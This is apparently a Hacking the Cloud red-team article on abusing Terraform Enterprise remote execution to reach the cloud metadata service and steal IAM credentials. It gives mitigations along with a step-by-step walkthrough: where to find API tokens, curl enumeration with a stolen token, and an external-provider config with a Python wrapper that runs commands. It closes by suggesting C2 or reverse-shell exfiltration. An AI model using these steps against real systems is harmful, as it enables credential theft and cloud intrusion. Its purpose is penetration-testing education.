

[Terraform Enterprise](https://www.terraform.io/enterprise) is a self-hosted version of Terraform Cloud, allowing organizations to maintain their own private instance of Terraform. There are many benefits for an enterprise to run this, however, there is also a default configuration that Red Teamers and Penetration Testers can potentially take advantage of.

If Terraform Enterprise is deployed to a VM from a cloud provider we may be able to access the instance metadata service and leverage those credentials for further attacks.

"By default, Terraform Enterprise does not prevent Terraform operations from accessing the instance metadata service, which may contain IAM credentials or other sensitive data" ([source](https://www.terraform.io/enterprise/system-overview/security-model#restrict-terraform-build-worker-metadata-access))

!!! Note
    While the focus of this article is on targeting the metadata service, it is worth noting that gaining code execution inside a Terraform run may provide other avenues for attack. For example, environment variables could be leaked which may contain sensitive credentials.

## Remote (Code) Execution

For many engineers, their first experience with Terraform was locally on their workstations. When they invoked a `terraform apply` or `terraform plan` all of that activity took place on the local machine (reaching out to cloud APIs, tracking state, etc.)

An exciting feature of Terraform Enterprise (and Cloud) is the idea of [Remote Execution](https://www.terraform.io/cloud-docs/overview#remote-terraform-execution), wherein all those operations take place server-side. In Terraform Cloud the execution takes place in "disposable virtual machines". In [Terraform Enterprise](https://www.terraform.io/enterprise/install/interactive/installer#alternative-terraform-worker-image) however, it takes place in "disposable Docker containers". 

This introduces an interesting opportunity; If you compromise credentials to initiate a `plan` or `apply` operation (or otherwise have access to them. I.E insider threat) we can execute code in a Docker container on the Terraform Enterprise server.

!!! Note
    It is possible to disable Remote Execution via a configuration however this is [discouraged](https://www.terraform.io/cloud-docs/run#disabling-remote-operations). "Many of Terraform Cloud's features rely on remote execution, and are not available when using local operations. This includes features like Sentinel policy enforcement, cost estimation, and notifications."

## Docker Containers and Metadata Services

Aside from [container escapes](https://www.cyberark.com/resources/threat-research-blog/the-route-to-root-container-escape-using-kernel-exploitation), running user-supplied code in a container is an interesting opportunity in a cloud context. The specifics will depend upon the cloud provider. For example, in AWS, an attacker could target the [Instance Metadata Service](https://hackingthe.cloud/aws/general-knowledge/intro_metadata_service/). This would provide the attacker IAM credentials for the IAM role associated with the EC2 instance.

Other opportunities include things such as the instance [user data](https://hackingthe.cloud/aws/general-knowledge/introduction_user_data/), which may help enumerate what software is on the host, potentially leak secrets, or reveal what the associated IAM role has access to. It is also possible to use this to pivot to other machines in the VPC/subnet which would otherwise be inaccessible, or to attempt to hit services exposed on localhost on the TFE host (hitting 172.17.0.1).

## Attack Prevention

It is worth noting that there are two potential methods to mitigate this attack. The first is the configuration of [restrict_worker_metadata_access](https://www.terraform.io/enterprise/system-overview/security-model#restrict-terraform-build-worker-metadata-access) in the Terraform Enterprise settings. This is __not__ the default, meaning that out of the box Terraform operations have access to the metadata service and its credentials.

The second option would depend upon the cloud provider, but options to harden or secure the Metadata Service can also be used. For example, [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html) in an AWS situation would prevent the [Docker container from reaching the Metadata Service](https://hackingthe.cloud/aws/general-knowledge/intro_metadata_service/).

!!! Note
    Nothing should prevent these two methods from working at the same time. It is a good idea to require IMDSv2 of all EC2 instances in your environment.

## Walkthrough

!!! Warning
    This walkthrough and screenshots are not tested against Terraform Enterprise (this is a free/open source project, we don't have access to a Terraform Enterprise instance for demonstration purposes). As such it is being demoed on Terraform Cloud which, while similar, is not a 1-1 copy. If you are attempting to exploit this against your organization's TFE instance, minor tweaks may be needed. (We are open to [Pull Requests](https://github.com/Hacking-the-Cloud/hackingthe.cloud/pulls)!)

!!! Note
    If you already have a configured and initialized Terraform backend, you can skip to the [Executing Code](#executing-code) section. The following walkthrough will demonstrate the entire process from finding the token to initializing the backend.

### Acquire a Terraform API Token

To begin, you'll first need to 'acquire' a [Terraform API Token](https://www.terraform.io/cloud-docs/users-teams-organizations/api-tokens). These tokens can be identified by the `.atlasv1.` substring in them.

As for where you would get one, there are a number of possible locations. For example, developer's may have them locally on their workstations in `~/.terraform.d/`, you may find them in CI/CD pipelines, inappropriately stored in documentation, pull them from a secrets vault, create one with a developer's stolen credentials, etc.

### Identify the Organization and Workspace Names

With access to a valid API token, we now need to find an Organization and Workspace we can use to be nefarious. The good news is that this information is queryable using the token. We can use a tool such as [jq](https://stedolan.github.io/jq/) to parse and display the JSON.

```
curl -H "Authorization: Bearer $TFE_TOKEN" \
https://<TFE Instance>/api/v2/organizations | jq
```

<figure markdown>
  { loading=lazy }
</figure>

Next, we need to identify a [workspace](https://www.terraform.io/cloud-docs/api-docs/workspaces) we can use. Again, this can be quereyed using the organization `id` we gathered in the previous step.

```
curl -H "Authorization: Bearer $TFE_TOKEN" \
https://<TFE Instance>/api/v2/organizations/<Organization ID>/workspaces | jq
```
<figure markdown>
  { loading=lazy }
</figure>

### Configure the Remote Backend

Now that we have the organization and workspace id's from the previous step, we can configure the remote backend. To do this, you can use [this example](https://github.com/hashicorp/tfc-getting-started/blob/main/backend.tf) as a template with one exception. We will add a `hostname` value which is the hostname of the Terraform Enterprise instance. You can store this in a file named `backend_config.tf`.
``` title="backend_config.tf"
terraform {
  backend "remote" {
    hostname = "{{TFE_HOSTNAME}}"
    organization = "{{ORGANIZATION_NAME}}"

    workspaces {
      name = "{{WORKSPACE_NAME}}"
    }
  }
}
```

### Initialize the Backend

With the backend configuration file created we can initialize the backend with the following command.

```
terraform init --backend-config="token=$TFE_TOKEN"
```

If everything has worked as it should, you should get a `Terraform has been successfully initialized` notification. To test this, you can perform a `terraform state list` to list the various state objects.

### Executing Code

Now that our backend has been properly configured and we can access the remote state, we can attempt to execute code. There are several ways this can be done (such as using a [local-exec provisioner](https://www.terraform.io/language/resources/provisioners/local-exec)) however, for our purposes we will be using the [External Provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

"`external` is a special provider that exists to provide an interface between Terraform and external programs".

What this means is that we can execute code during the Terraform `plan` or `apply` operations by specifying a program or script to run.

To do this, we will create an `external provider` in our existing `backend_config.tf` file (if you already have an existing Terraform project you can add this block to those existing files).

``` title="backend_config.tf"
...

data "external" "external_provider" {
    program = ["python3", "wrapper.py"]
}

output "external_provider_example" {
    value = data.external.external_provider
}
```

You may be wondering what the `wrapper.py` file is. In order to use the `external` provider, we must "implement a specific protocol" ([source](https://registry.terraform.io/providers/hashicorp/external/latest/docs)), which is JSON. To do this, we will wrap the result of the code execution in JSON so it can be returned.

!!! Note
    The wrapper script is not strictly required if you aren't interested in getting the output. If your goal is simply to execute a C2 payload, you can include the binary in the project directory and then execute it.

    Wrapping the output in JSON allows us to get the response output.

Our wrapper script looks like the following (feel free to change to your needs).

```py title="wrapper.py"
import json
import os

stream = os.popen('id')
output = stream.read()
result = { "result" : output }

print(json.dumps(result))
```

### Terraform Plan

Now that the wrapper script is created (and modified), we can execute code via `terraform plan`. This is a non-destructive action, which will evaluate our local configuration vs's the remote state. In addition, it will execute our remote provider and return the result to us.

<figure markdown>
  { loading=lazy }
</figure>

!!! Warning
    Upon executing `terraform plan` you may encounter errors for various reasons depending upon the remote state. Those errors will need to be handled on a case by case basis. Typically this involves modifying your `.tf` files to suit the remote state. This can typically be figured out based on the results of `terraform state pull`.

From here, we can modify our wrapper script to do a variety of things such as (the purpose of this article) reaching out to the metadata service and pulling those credentials.

!!! Note
    The results of this run are logged elsewhere. Please do not leak secrets or other sensitive information to parties who do not have a need for the information. A more efficient method would be to use a C2 platform such as [Mythic](https://docs.mythic-c2.net/) (or even just a TLS encrypted reverse shell) to exfiltrate the credentials.